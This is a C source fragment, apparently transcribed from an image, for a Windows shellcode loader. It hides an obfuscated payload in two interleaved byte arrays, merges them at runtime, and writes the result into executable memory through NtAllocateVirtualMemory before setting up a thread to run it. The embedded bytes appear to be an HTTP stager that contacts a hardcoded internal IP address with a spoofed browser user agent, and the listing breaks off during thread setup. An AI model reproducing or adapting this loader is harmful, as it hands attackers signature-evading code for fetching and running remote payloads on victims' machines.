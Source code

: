 ```c
	unsigned char data[] = "\x00\xe8\x89\x00\x00\x00\x00\x89\xe5\x00\xd2\x64\x00\x52\x30\x00\x52\x0c\x00\x52\x14\x00\x72\x28\x00\xb7\x4a\x00\x31\xff\x00\xc0\xac\x00\x61\x7c\x00\x2c\x20\x00\xcf\x0d\x00\xc7\xe2\x00\x52\x57\x00\x52\x10\x00\x42\x3c\x00\xd0\x8b\x00\x78\x85\x00\x74\x4a\x00\xd0\x50\x00\x48\x18\x00\x58\x20\x00\xd3\xe3\x00\x49\x8b\x00\x8b\x01\x00\x31\xff\x00\xc0\xac\x00\xcf\x0d\x00\xc7\x38\x00\x75\xf4\x00\x7d\xf8\x00\x7d\x24\x00\xe2\x58\x00\x58\x24\x00\xd3\x66\x00\x0c\x4b\x00\x58\x1c\x00\xd3\x8b\x00\x8b\x01\x00\x89\x44\x00\x24\x5b\x00\x61\x59\x00\x51\xff\x00\x58\x5f\x00\x8b\x12\x00\x86\x5d\x00\x6e\x65\x00\x00\x68\x00\x69\x6e\x00\x54\x68\x00\x77\x26\x00\xff\xd5\x00\x00\x00\x00\x00\x31\x00\x57\x57\x00\x57\x57\x00\x3a\x56\x00\xa7\xff\x00\xe9\xa4\x00\x00\x00\x00\x31\xc9\x00\x51\x6a\x00\x51\x51\x00\xbb\x01\x00\x00\x53\x00\x68\x57\x00\x9f\xc6\x00\xd5\x50\x00\x8c\x00\x00\x00\x5b\x00\xd2\x52\x00\x00\x32\x00\x84\x52\x00\x52\x53\x00\x50\x68\x00\x55\x2e\x00\xff\xd5\x00\xc6\x83\x00\x50\x68\x00\x33\x00\x00\x89\xe0\x00\x04\x50\x00\x1f\x56\x00\x75\x46\x00\x86\xff\x00\x5f\x31\x00\x57\x57\x00\xff\x53\x00\x68\x2d\x00\x18\x7b\x00\xd5\x85\x00\x0f\x84\x00\x01\x00\x00\x31\xff\x00\xf6\x74\x00\x89\xf9\x00\x09\x68\x00\xc5\xe2\x00\xff\xd5\x00\xc1\x68\x00\x21\x5e\x00\xff\xd5\x00\xff\x57\x00\x07\x51\x00\x50\x68\x00\x57\xe0\x00\xff\xd5\x00\x00\x2f\x00\x00\x39\x00\x75\x07\x00\x50\xe9\x00\xff\xff\x00\x31\xff\x00\x91\x01\x00\x00\xe9\x00\x01\x00\x00\xe8\x6f\x00\xff\xff\x00\x77\x42\x00\x6d\x00\x00\x42\xc6\x00\x6f\xba\x00\x3d\xd8\x00\xfc\x47\x00\xbc\xdc\x00\xe5\xb9\x00\x57\x1e\x00\xe6\xd9\x00\x4f\x31\x00\x37\x66\x00\x69\xf2\x00\xae\xf8\x00\x5d\xde\x00\x53\x49\x00\x59\x04\x00\x49\x62\x00\x1d\x70\x00\xd4\xcb\x00\x66\x6d\x00\x06\x5b\x00\xe8\xc7\x00\xf2\xcf\x00\xa7\x75\x00\x9a\xb0\x00\x00\x55\x00\x65\x72\x00\x41\x67\x00\x6e\x74\x00\x20\x4d\x00\x7a\x69\x00\x6c\x61\x00\x34\x2e\x00\x20\x28\x00\x6f\x6d\x00\x61\x74\x00\x62\x6c\x00\x3b\x20\x00\x53\x49\x00\x20\x37\x00\x30\x3b\x00\x57\x69\x00\x64\x6f\x00\x73\x20\x00\x54\x20\x00\x2e\x31\x00\x20\x54\x00\x69\x64\x00\x6e\x74\x00\x34\x2e\x00\x29\x0d\x00\x00\x65\x00\x75\x9d\x00\x44\xb7\x00\xc6\x44\x00\xdc\xc8\x00\x94\xf1\x00\x08\x48\x00\xac\xac\x00\xf0\xfa\x00\xf4\x24\x00\x95\xec\x00\xbe\x97\x00\x01\x5e\x00\x85\x66\x00\xd3\x11\x00\xd8\xb5\x00\x4b\x87\x00\x84\x9f\x00\x50\x09\x00\x54\x1b\x00\xc0\x50\x00\x75\xd9\x00\xa2\x05\x00\x23\x9d\x00\x5b\x20\x00\xf3\x86\x00\x3b\x9f\x00\x07\x77\x00\xa0\x8a\x00\x5a\x87\x00\x64\xd1\x00\xcf\xe2\x00\xa1\x26\x00\xdb\x63\x00\xca\x11\x00\x48\x45\x00\x5c\x05\x00\x42\x1e\x00\x9a\x23\x00\xb0\xe7\x00\xfa\x35\x00\xf4\xe3\x00\x31\xe0\x00\xcd\x8f\x00\xf8\x14\x00\x0f\x89\x00\x03\xa2\x00\xce\x2b\x00\x5f\x57\x00\x32\xac\x00\x3e\xad\x00\xa8\xc8\x00\x66\x01\x00\x6c\xa9\x00\x36\xed\x00\xa2\x57\x00\x95\x06\x00\x9b\x07\x00\xc4\x02\x00\x44\xf0\x00\x9e\x36\x00\x6f\xdf\x00\x33\xce\x00\xa9\xce\x00\xce\x0a\x00\xf4\xb9\x00\x5c\xae\x00\x23\xce\x00\xac\x8f\x00\x09\x85\x00\x37\xb9\x00\x25\x6b\x00\x38\xe3\x00\xda\xd9\x00\x96\x1c\x00\x0c\x00\x00\xf0\xb5\x00\x56\xff\x00\x6a\x40\x00\x00\x10\x00\x00\x68\x00\x00\x40\x00\x57\x68\x00\xa4\x53\x00\xff\xd5\x00\xb9\x00\x00\x00\x00\x00\xd9\x51\x00\x89\xe7\x00\x68\x00\x00\x00\x00\x00\x56\x68\x00\x96\x89\x00\xff\xd5\x00\xc0\x74\x00\x8b\x07\x00\xc3\x85\x00\x75\xe5\x00\xc3\xe8\x00\xfd\xff\x00\x31\x30\x00\x2e\x31\x00\x2e\x31\x00\x36\x2e\x00\x37\x00\x00\x00\x00\x00";
	char a1[] = "\xfc\x00\x60\x31\x8b\x8b\x8b\x8b\x0f\x26\x31\x3c\x02\xc1\x01\xf0\x8b\x8b\x01\x40\xc0\x01\x8b\x8b\x01\x3c\x34\xd6\x31\xc1\x01\xe0\x03\x3b\x75\x8b\x01\x8b\x8b\x01\x04\xd0\x24\x5b\x5a\xe0\x5a\xeb\x68\x74\x77\x69\x4c\x07\xe8\x00\xff\x57\x68\x79\xd5\x00\x5b\x51\x03\x68\x00\x50\x89\xff\xe9\x00\x31\x68\xc0\x52\x52\xeb\x3b\x89\xc3\x80\x00\x6a\x6a\x68\x9e\xd5\xff\x6a\x56\x06\xff\xc0\xca\x00\x85\x04\xeb\xaa\x5d\x89\x45\x31\x31\x6a\x56\xb7\x0b\xbf\x00\xc7\x58\x7b\xff\xe9\x00\xc9\x00\xff\x2f\x36\x8b\x20\xaf\xf5\xe9\xb6\xf5\x9b\x86\xbc\x09\x77\x40\x33\x2e\x1a\x31\x64\x02\xb6\x09\x07\xd3\x48\xa8\x73\x2d\x65\x3a\x6f\x6c\x2f\x30\x63\x70\x69\x65\x4d\x45\x2e\x20\x6e\x77\x4e\x35\x3b\x72\x65\x2f\x30\x0a\x1b\xb1\xb6\x11\xa7\x6e\x13\xc6\x3d\x5d\x24\x53\xc2\x36\x91\xfe\x53\x5a\x64\x3b\x31\x02\xf1\x0e\x22\x54\xa9\x33\x03\xa4\x27\x4e\xd9\x6b\xdc\x2f\x09\x3c\x3b\x8d\x26\x74\x43\x03\x83\x66\xc9\x1c\x0e\x9a\xef\x2b\x10\x15\xaf\x89\x8c\x1f\xcb\x51\x5c\xc1\x7a\xed\x94\x2b\x50\x72\x5c\x52\xc5\x97\x1b\xb3\x5c\x68\xa2\xd5\x68\x00\x00\x00\x58\xe5\x93\x00\x01\x53\x57\x20\x53\x12\xe2\x85\xc6\x01\xc0\x58\x89\xff\x33\x30\x39\x33\x00\x06";

	SIZE_T Size = sizeof(data);
	for (int i = 0; i < sizeof(a1); i++) {
		memcpy(&data[i * 3], &a1[i], 1);
	}

	PVOID lpvAddr = NULL;
	NTSTATUS status;

	status = NtAllocateVirtualMemory(GetCurrentProcess(), &lpvAddr, 0, &Size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	RtlMoveMemory(lpvAddr, data, sizeof(data));

	HANDLE ThreadHandle = NULL;
	CONTEXT NewThreadContext = { 0 };
	INITIAL_TEB InitialTeb = { 0 };
	OBJECT_ATTRIBUTES ObjAttr2 = { 0 };
```

[go/shellcode_inject/virtual>>]: generate